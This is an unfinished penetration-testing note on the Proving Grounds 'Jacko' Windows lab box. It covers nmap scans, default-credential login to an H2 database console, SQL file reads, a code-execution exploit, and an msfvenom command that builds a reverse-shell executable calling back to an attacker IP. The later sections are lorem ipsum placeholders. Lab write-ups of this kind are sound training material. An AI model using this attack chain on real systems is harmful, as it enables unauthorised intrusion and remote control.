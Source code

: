 ```yaml
---
Date: 2024-10-29
Platform: PG-Practice
Category: Windows
Difficulty: Intermediate
Status: In progress
IP: 192.168.182.66
Writeup: https://medium.com/@Dpsypher/proving-grounds-practice-jacko-d42c9c1e7f9e
---
```

# Box


# Resolution summary
- Text
- Text
## Improved skills
- skill 1
- skill 2
## Used tools
- nmap
- python

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -p- -vvv -oN jacko.nmap 192.168.182.66
---
PORT      STATE    SERVICE         REASON
80/tcp    open     http            syn-ack ttl 125
135/tcp   open     msrpc           syn-ack ttl 125
139/tcp   open     netbios-ssn     syn-ack ttl 125
445/tcp   open     microsoft-ds    syn-ack ttl 125
5040/tcp  open     unknown         syn-ack ttl 125
8082/tcp  open     blackice-alerts syn-ack ttl 125
9092/tcp  open     XmlIpcRegSvc    syn-ack ttl 125
39980/tcp filtered unknown         no-response
49664/tcp open     unknown         syn-ack ttl 125
49665/tcp open     unknown         syn-ack ttl 125
49666/tcp open     unknown         syn-ack ttl 125
49667/tcp open     unknown         syn-ack ttl 125
49668/tcp open     unknown         syn-ack ttl 125
49669/tcp open     unknown         syn-ack ttl 125
61417/tcp filtered unknown         no-response
```

Enumerated open TCP ports:
```bash
sudo nmap -p 80,135,139,445,5040,8082,9082,61417 -A 192.168.182.66 -oN jacko-ports.nmap -v
---
PORT      STATE  SERVICE       VERSION
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?
5040/tcp  open   unknown
8082/tcp  open   http          H2 database http console
| http-methods: 
|_  Supported Methods: GET POST
|_http-favicon: Unknown favicon MD5: D2FBC2E4FB758DC8672CDEFB4D924540
|_http-title: H2 Console
9082/tcp  closed unknown
61417/tcp closed unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/28%OT=80%CT=9082%CU=41631%PV=Y%DS=4%DC=T%G=Y%TM=
OS:671F6F8E%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=I%CI=I%TS=U)S
OS:EQ(SP=101%GCD=1%ISR=10B%TI=I%CI=I%TS=U)SEQ(SP=101%GCD=1%ISR=10C%TI=I%CI=
OS:I%TS=U)SEQ(SP=FF%GCD=1%ISR=10B%TI=I%CI=I%TS=U)OPS(O1=M578NW8NNS%O2=M578N
OS:W8NNS%O3=M578NW8%O4=M578NW8NNS%O5=M578NW8NNS%O6=M578NNS)WIN(W1=FFFF%W2=F
OS:FFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M578NW8NN
OS:S%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-28T11:03:30
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
---
# Enumeration

## Port 80 - HTTP (H2 Database)
- 

## Port 135 - MSRPC (Windows RPC)

## Port 139 & 445 - SMB (Apache)

## Port 8082 - HTTP (Apache)
- Navigated to `http://192.168.182.66:80`82 and identified default page for `H2 Database Engine`
![[Pasted image 20241028212149.png]]
- Attempted login with default credentials `sa:` (No Password) and accessed admin panel
![[Pasted image 20241028212232.png]]
- Ran SQL query `SELECT FILE_READ('C:\Windows\system.ini', NULL);` to test file read ability
![[Pasted image 20241028214128.png]]
- Ran `SELECT FILE_WRITE('test','C:\test.txt');` to test file write ability - access is denied to directory.
![[Pasted image 20241028214439.png]]
- Ran `searchsploit "H2"` and identified exploit `49384.txt` to compile and run Java code on target for code execution
![[Pasted image 20241028215150.png]]
- Copied Java code into SQL field and ran
![[Pasted image 20241028215317.png]]
- Loaded Java native library
![[Pasted image 20241028215433.png]]
- Evaluated script with `whoami` to confirm code execution and identify `jacko/tony`
![[Pasted image 20241028215550.png]]
- Returned to Kali host and ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.162 LPORT=4444 -f exe > revshell.exe` to create reverse shell executable, then `python3 -m http.server 80` to serve folder with `revshell.exe` via HTTP
![[Pasted image 20241028215953.png]]
- 
## Port 49152-60 - MSRPC (Windows RPC)
No Enumeration conducted

---
# Exploitation
## Name of the technique
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Lateral Movement to user
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Lateral Movement vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Privilege Escalation
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Privilege Escalation vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Trophy & Loot
`local.txt` = ``
`proof.txt` = ``